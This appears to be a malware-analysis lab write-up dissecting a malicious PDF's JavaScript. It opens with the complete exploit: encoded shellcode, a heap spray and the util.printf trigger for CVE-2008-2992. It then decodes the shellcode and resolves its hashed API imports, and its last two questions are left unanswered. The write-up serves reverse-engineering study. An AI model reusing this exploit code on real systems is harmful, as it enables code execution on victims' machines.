var payload = unescape("%ue589%uec81%u017c%u0000%u6ee8%u0001%u8e00%u0e4e%u72ec%ub3fe%u8316%ub5b9%ue678%u8f17%u337b%u8aca%u4f5b%uc703%ua5bf%u0017%uad7c%u7d9b%uacdf%uda08%u1676%ufa65%u1f10%u0a79%ufbe8%ufd97%uec0f%u0397%uf60c%ub922%u5e7c%ue1bb%u021b%u00c6%u6f00%u0010%u0000%u00a0%u6f00%u00b0%u4e00%u0014%u5600%u8b57%u2474%u310c%ufcff%uc031%u38ac%u74e0%uc10a%u0dcf%uc701%uefe9%uffff%u89ff%u5ff8%uc25e%u0004%u8b60%u246c%u8b24%u3c45%u548b%u7805%uea01%u4a8b%u8b18%u205a%ueb01%u2ae3%u8b49%u8b34%uee01%ue856%uffbb%uffff%u443b%u2824%uec75%u5a8b%u0124%u66eb%u0c8b%u8b4b%u1c5a%ueb01%u048b%u018b%ue9e8%u0002%u0000%uc031%u4489%u1c24%uc261%u0008%u3156%u64c0%u408b%u8530%u78c0%u8b0f%u0c40%u708b%uad1c%u408b%ue908%u0005%u0000%ufbe9%uffff%u5eff%u55c3%ue589%uec83%u6008%u758b%u890c%u8bf7%u1455%u4d8b%uac10%ud030%uc2fe%ue2aa%u6af8%u6a00%u6a02%u6a04%u6a00%u6803%u0000%u4000%u458b%u5018%u5d8b%uff08%u1853%u4589%ufffc%u1075%u75ff%u500c%u73ff%ue828%u000d%u0000%u75ff%ufffc%u2c53%u8961%u5dec%u14c2%u5500%ue589%uc031%u5050%u8d60%ufc75%u7d8d%u8bf8%u1055%u5503%u8bfc%u1445%u452b%u68fc%u0000%u0000%u5057%uff52%u0c75%u55ff%u8508%u74c0%u8b0b%u0107%u8b06%u3b16%u1455%ud772%u8961%u5dec%u10c2%u5e00%u7589%u89ec%u89f7%ue8f3%uff42%uffff%u4589%ub9fc%u000e%u0000%u50ad%u75ff%ue8fc%ufee4%uffff%ue2ab%u68f3%u336c%u0032%u7368%u6568%u896c%u50e0%u13ff%uad91%u5150%uc9e8%ufffe%uabff%uf631%u5d8b%u81ec%u04c6%u0000%u8d00%uf845%u5650%u53ff%u3b1c%u3c43%ued75%u7589%u31f8%uffd2%u4473%uff52%u3053%uc085%u840f%u0131%u0000%u4589%u31f4%u52d2%uff52%u4073%u75ff%ufff8%u2053%u73ff%uff44%uf475%u75ff%ufff8%u2473%u3ae8%uffff%u31ff%u8dc0%udcbd%ufffe%ub9ff%u0040%u0000%uabf3%ubd8d%ufedc%uffff%u6857%u0100%u0000%u53ff%u3110%u8dc0%udcbd%ufffe%uf2ff%u4fae%u7d89%uc7e4%u6607%u6f6f%uc72e%u0447%u7865%u0065%u5d8b%u8dec%udc85%ufffe%u50ff%u4a68%u0000%uff00%u4473%u75ff%u53f4%u94e8%ufffe%u31ff%u8dc0%u88bd%ufffe%ub9ff%u0015%u0000%uabf3%u958d%ufe88%uffff%u8d52%u9895%ufffe%u52ff%u5050%u6850%uffff%uffff%u5050%u8d50%udc85%ufffe%u50ff%u53ff%uff04%uf475%u53ff%u3134%u8bd2%uec5d%u73ff%u524c%u53ff%u8530%u74c0%u8974%uf045%ud231%u5252%u73ff%uff48%uf875%u53ff%uff20%u4c73%u75ff%ufff0%uf875%u73ff%ue824%ufe7d%uffff%u458b%uc7e4%u6200%u7261%uc72e%u0440%u6470%u0066%u858d%ufedc%uffff%u6a50%u8b4a%uec5d%u73ff%uff4c%uf075%ue853%ufe03%uffff%uc931%u858d%ufe98%uffff%u00c7%u706f%u6e65%u40c6%u0004%u0568%u0000%u5100%u8d51%udc85%ufffe%u50ff%u858d%ufe98%uffff%u5150%u53ff%uff38%u0c53%u0068%u0000%u5000%u53ff%u9008%u9090");
var version = app.viewerVersion;
app.alert("Running PDF JavaScript!");
if (version >= 8 && version < 9) {
    var payload;
    nop = unescape("%u0A0A%u0A0A%u0A0A%u0A0A")
    heapblock = nop + payload;
    bigblock = unescape("%u0A0A%u0A0A");
    headersize = 20;
    spray = headersize+heapblock.length;
    while (bigblock.length<spray) {
        bigblock+=bigblock;
    }
    fillblock = bigblock.substring(0, spray);
    block = bigblock.substring(0, bigblock.length-spray);
    while(block.length+spray < 0x40000) {
        block = block+block+fillblock;
    }
    mem = new Array();
    for (i=0;i<1400;i++) {
        mem[i] = block + heapblock;
    }
    var num = 12999999999999999999888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888;
    util.printf("%45000f",num);
} else {
    app.alert("Unknown PDF version!");
}
```

We can check the exploit that the sample is using manually or using the same tool, since it has an exloit analizer.

We decide to do it manually and see if we can identify it.

We decide to search for the string:

```
util.printf("%45000f",num);
```

Since it seems to be the function that triggers the vulnerability. In the first result we get to the _exploit-db_ and a exploit code that seems quite similar to the one we have obtained. This code is labeled as exploit of _CVE-2008-2992_ vulnerability.


Also, if we use the tool _PDFStreamDumper_, this is what it says:

```
Exploit CVE-2008-2992 Date:11.4.08 v8.1.2 - util.printf - found in stream: 9
```

**2. How is the shellcode encoded?**

The shellcode is encoded using _UTF-16_, since it is the encoding used by _Javascript_.

If we want to decode so we can load it in _IDA Pro_ we have to decode it as follows:

```
%ue589%uec81...
	||
	\/
89 e5 81 ec ...
```

We developed a _Python_ script that takes one shellcode file in _UTF-16_ format and converts it to regular format. This script is located at "Scripts/General/convert_utf16_shellcode.py" and is executed as follows:

```
$ python3 Scripts/General/convert_utf16_shellcode.py Scripts/Labs/Lab_19/Lab19-03_shellcode.txt 

[+] Shellcode successfully extracted
[+] Shellcode successfully saved in the file: Scripts/Labs/Lab_19/Lab19-03_shellcode.bin
```

Now, we have a decoded shellcode fully understandable by _IDA Pro_.


**3. Which functions does the shellcode manually import?**

So now, it is time to analyze the shellcode.

The first interesting instruction we see is a call to _0x17B_:

```
seg000:00000008                 call    loc_17B
```

This will jump to:

```
seg000:0000017B loc_17B:                                ; CODE XREF: seg000:00000008↑p
seg000:0000017B                 pop     esi
seg000:0000017C
seg000:0000017C loc_17C:                                ; CODE XREF: seg000:00000286↓p
seg000:0000017C                 mov     [ebp-14h], esi
seg000:0000017F                 mov     edi, esi
seg000:00000181                 mov     ebx, esi
seg000:00000183                 call    sub_CA
seg000:00000188                 mov     [ebp-4], eax
```

So a pointer to the return address of the call instruction (_0xD_) is stored in _ESI_, this will be also loaded in _EBP-0x14_, _EDI_ and _EBX_ prior to call _sub_CA_, which is the following function:



As we can see, it is the well known funtion to get the _kernel32.dll_ _DllBase_ address, so we rename it as so _get_kernel32_dllbase_. Also, take in mind that the result is stored at _EBP-0x4_.

Then, we can see how the shellcode executes a loop in which it will use the known functions of function searching by hash:

```
seg000:0000018B                 mov     ecx, 0Eh
seg000:00000190 loc_190:                                ; CODE XREF: seg000:0000019B↓j
seg000:00000190                 lodsd					; EAX = ESI = value at address 0xD 
seg000:00000191                 push    eax
seg000:00000192                 push    dword ptr [ebp-4]	; kernel32 DllBase
seg000:00000195                 call    look_for_functions
seg000:0000019A                 stosd
seg000:0000019B                 loop    loc_190
```

So this functions will search for 14 (_0xE_) hashes stored at _0xD_:

```
seg000:0000000D                 dd 0EC0E4E8Eh
seg000:00000011                 dd 16B3FE72h
seg000:00000015                 dd 78B5B983h
seg000:00000019                 dd 7B8F17E6h
seg000:0000001D                 dd 5B8ACA33h
seg000:00000021                 dd 0BFC7034Fh
seg000:00000025                 dd 7C0017A5h
seg000:00000029                 dd 0DF7D9BADh
seg000:0000002D                 dd 76DA08ACh
seg000:00000031                 dd 10FA6516h
seg000:00000035                 dd 0E80A791Fh
seg000:00000039                 dd 0FFD97FBh
seg000:0000003D                 dd 0C0397ECh
seg000:00000041                 dd 7CB922F6h
```

We include these hashes and execute our _Python_ script as follows, since it uses _kernel32.dll_ (some changes may have to be done, since this script is also used in other exercises):

```
$ python3 Scripts/Labs/Lab_19/lab19_hashing_function.py Scripts/Labs/Lab_19/kernel32_exports.txt

Occurrence found! The decrypted hash 0xec0e4e8e is: LoadLibraryA
Occurrence found! The decrypted hash 0x16b3fe72 is: CreateProcessA
Occurrence found! The decrypted hash 0x78b5b983 is: TerminateProcess
Occurrence found! The decrypted hash 0x7b8f17e6 is: GetCurrentProcess
Occurrence found! The decrypted hash 0x5b8aca33 is: GetTempPathA
Occurrence found! The decrypted hash 0xbfc7034f is: SetCurrentDirectoryA
Occurrence found! The decrypted hash 0x7c0017a5 is: CreateFileA
Occurrence found! The decrypted hash 0xdf7d9bad is: GetFileSize
Occurrence found! The decrypted hash 0x76da08ac is: SetFilePointer
Occurrence found! The decrypted hash 0x10fa6516 is: ReadFile
Occurrence found! The decrypted hash 0xe80a791f is: WriteFile
Occurrence found! The decrypted hash 0xffd97fb is: CloseHandle
Occurrence found! The decrypted hash 0xc0397ec is: GlobalAlloc
Occurrence found! The decrypted hash 0x7cb922f6 is: GlobalFree
```

Great! Let's check id the routine _look_for_functions_ is used in other part of the code:

```
seg000:0000019D                 push    32336Ch         ; '23l'
seg000:000001A2                 push    6C656873h       ; 'lehs'
seg000:000001A7                 mov     eax, esp
seg000:000001A9                 push    eax             ; shell32
seg000:000001AA                 call    dword ptr [ebx] ; LoadLibraryA
seg000:000001AC                 xchg    eax, ecx
seg000:000001AD                 lodsd
seg000:000001AE                 push    eax
seg000:000001AF                 push    ecx
seg000:000001B0                 call    look_for_functions
seg000:000001B5                 stosd
```

It is used after the previous instruction set to get one function, the one with the hash:

```
seg000:00000045                 dd 1BE1BB5Eh
```

So we get the exported function of _shell32.dll_, include this hash and execute this function as follows:

```
$ python3 Scripts/Labs/Lab_19/lab19_hashing_function.py Scripts/Labs/Lab_19/shell32_exports.txt 

Occurrence found! The decrypted hash 0x1be1bb5e is: ShellExecuteA
```

**4. What filesystem residue does the shellcode leave?**

**5. What does the shellcode do?**
